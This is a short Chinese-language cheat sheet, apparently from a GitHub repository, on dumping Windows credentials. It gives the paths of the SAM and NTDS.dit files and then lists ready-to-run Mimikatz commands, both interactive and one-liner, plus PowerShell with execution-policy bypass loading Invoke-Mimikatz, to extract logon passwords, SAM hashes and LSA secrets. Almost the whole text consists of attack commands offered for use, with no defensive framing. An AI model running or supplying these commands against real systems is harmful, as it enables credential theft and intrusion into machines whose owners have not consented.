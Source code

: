 # Windows密码凭证获取

## Hash存储位置

`Windows Hash`一般存储在两个地方：

> SAM 文件，存储在本机，对应本地用户
> NTDS.DIT 文件，存储在域控上，对应域用户

文件位置：

> SAM：
> C:\windows\system32\config\SAM
> NTDS.DIT：
> C:\windows\NTDS\NTDS.dit

## 系统用户凭证获取

### Mimikatz

#### 本地交互式

```mimkatz
mimikztz.exe
mimikatz # privilege::debug
mimikatz # log re.txt
mimikatz # sekurlsa::logonpasswords
mimikatz # exit

mimikztz.exe
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # log res.txt
mimikatz # lsadump::sam
mimikatz # lsadump::secrets
```

#### 本地非交互式

```mimkatz
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords""exit" > log.txt
mimikatz.exe "log re.txt" "privilege::debug" "sekurlsa::logonpasswords" "exit"
mimikatz.exe "log res.txt" "privilege::debug" "token::elevate" "lsadump::sam" "lsadump::secrets" "exit"
```

#### powershell加载本地mimikatz脚本

```
powershell -ep bypass Import-Module .\Invoke-Mimikatz.ps1;Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords"'

powershell -ep bypass Import-Module .\Invoke-Mimikatz.ps1;Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'
```
